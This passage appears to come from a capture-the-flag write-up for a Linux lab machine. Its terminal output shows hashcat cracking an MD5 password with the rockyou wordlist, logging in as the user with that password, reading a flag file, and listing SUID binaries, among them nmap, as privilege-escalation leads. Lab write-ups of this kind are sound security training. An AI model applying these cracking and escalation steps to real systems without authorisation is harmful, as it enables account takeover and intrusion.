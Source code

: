 ```

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Tue Sep 29 22:09:23 2020 (0 secs)
Time.Estimated...: Tue Sep 29 22:09:23 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   123.2 kH/s (0.29ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: treetree -> loserface1

Started: Tue Sep 29 22:09:15 2020
Stopped: Tue Sep 29 22:09:24 2020
```

`abcdefghijklmnopqrstuvwxyz`

```
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

`822c73956184f694993bede3eb39f959`

```
find / -perm -u=s -type f 2> /dev/null

/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
